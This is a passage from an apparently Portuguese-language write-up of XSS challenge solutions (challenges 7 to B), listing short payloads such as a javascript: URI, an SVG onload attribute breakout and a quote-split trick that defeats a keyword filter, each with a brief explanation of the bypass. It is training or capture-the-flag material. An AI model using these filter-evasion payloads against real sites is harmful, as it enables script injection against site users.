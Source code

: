 ```
javascript:prompt(1)#{"action":1}
```

[Ir para o desafio 6](#-desafio-6--redirecionamento-com-formulário)

### 🔹 7º desafio

<center><img src='XSS/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_7✅.png'></center>

```
"><svg/a=#"onload='/*#*/prompt(1)'
```

[Ir para o desafio 7](#-desafio-7--segmentação-com-)

### 🔹 8º desafio

<center><img src='XSS/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_8✅.png'></center>

```
 prompt(1) -->
```

[Ir para o desafio 8](#-desafio-8--filtro-de-quebras-de-linha)

### 🔹 9º desafio

**Resolução pendente.**

[Ir para o desafio 9](#-desafio-9--incompleta)

### 🔹 A desafio

<center><img src='XSS/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_A✅.png'></center>

Para ignorar a primeira expressão regular, basta usar uma aspa simples para dividir a palavra-chave `prompt` em `pr'ompt`. Isso claramente não é uma instrução **JavaScript** válida, mas não se preocupe: a segunda expressão regular removerá o caractere intruso `'`, retornando um vetor de ataque válido!

```
p'rompt(1)
```

[Ir para o desafio A](#-desafio-a--bloqueio-de-prompt-e-)

### 🔹 B desafio

<center><img src='XSS/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_B✅.png'></center>

O truque aqui é usar um operador alfanumérico — ou seja, um operador que não exija o uso dos caracteres especiais proibidos. Existem vários deles, e um que podemos utilizar aqui é o operador `in`.

```
"(prompt(1))in"
```
